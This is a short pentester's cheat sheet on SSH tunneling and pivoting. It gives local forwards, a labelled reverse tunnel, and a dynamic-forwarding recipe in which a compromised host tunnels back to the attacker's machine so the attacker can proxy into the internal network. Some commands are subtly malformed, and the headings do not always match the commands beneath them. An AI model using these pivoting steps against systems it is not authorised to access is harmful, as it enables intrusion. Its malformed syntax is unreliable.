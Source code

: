 # SSH tunneling

## SSH tunneling <a id="ssh-tunneling"></a>

```csharp
ssh -l user -p port -N(dont execute remote cmd) -L:8000:127.0.0.1:64297 10.4.4.63(remote_ip)
```

### SSH reverse tunnel \(ie for irc\)

```csharp
ssh -L localhost_PORT:irc.freenode.net:6667 user@owned_server
ssh -L 9001:127.0.0.1:8082 polo@server
irssi -c localhost -p localhost_PORT
```

### Dynamic port Forwarding

* On compromised host :

```csharp
ssh -f -N -R 2222:127.0.0.1 b3v1l@MYBOX
```

* Then, on attacker machine:

```csharp
ssh -f -N -D 127.0.0.1:1028 -p 2222 user@127.0.0.1
```

* Then configure proxychains.conf

```csharp
root@kali:~/ proxychains ssh 10.1.1.1
ProxyChains-3.1 (
http://proxychains.sf.net
)
|S-chain|-<>-127.0.0.1:1028-<><>-10.1.1.1:22-<><>-OK
```

\`\`

